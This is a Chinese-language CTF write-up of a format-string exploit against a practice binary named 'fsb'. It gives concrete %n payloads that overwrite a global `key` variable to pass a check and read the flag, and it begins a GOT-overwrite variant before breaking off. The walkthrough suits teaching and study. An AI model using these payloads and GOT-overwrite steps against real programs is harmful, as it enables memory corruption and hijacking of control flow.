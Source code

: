 

%n利用的指向关系找好了，接下来可以进行利用。

## 覆盖判断条件

`key`是全局变量，我们可以查找到其地址`0x804a060`。
```
(gdb) p &key
$1 = (<data variable, no debug info> *) 0x804a060 <key>
```

由于`$ebp - $esp = 0x48`, `$ebp-0x10` -> `$ebp+0x8`两者相对`$esp`的偏移量分别为0x38和0x50。
`$ebp-0x10`可以做`printf`的第14个参数， `$ebp+0x8`可以做`printf`的第20个参数。
将key地址`0x804a060`写入`argv`(`$ebp+0x8`)。
```
%134520928d%14$n 
# 134520928是0x804a060的十进制表示
```
现在我们可以读或者写`key`。我们可以将`key`置为0。
```
%20$n
```
回头去看，`unsigned long long key;` 这里`key`是8位，所以我们还需要将`&key+4`的值置为0。
```
%134520932d%14$n
%20$n
```
然后`pw`变量输入0，判断条件成立。

为了不等待屏幕输出满屏的空格，将输出重定向到`/dev/null`。

### 样例

```
fsb@ubuntu:~$ ./fsb > /dev/null
%134520928d%14$n
%20$n
%134520932d%14$n
%20$n
0
cat flag > /tmp/fsb_flag_werew 
chmod 666 /tmp/fsb_flag_werew


fsb@ubuntu:~$ cat /tmp/fsb_flag_werew
```

## 覆盖某函数的GOT表地址

在漏洞点以后出现了`read`函数和`sleep`，所以这里选用`read`。
```
fsb@ubuntu:~$ objdump -R fsb

fsb:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
===> 0804a000 R_386_JUMP_SLOT   read@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   sleep@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0

```
而我们希望跳转到的地址为
```
   0x0804869b <+359>:	test   %eax,%eax
```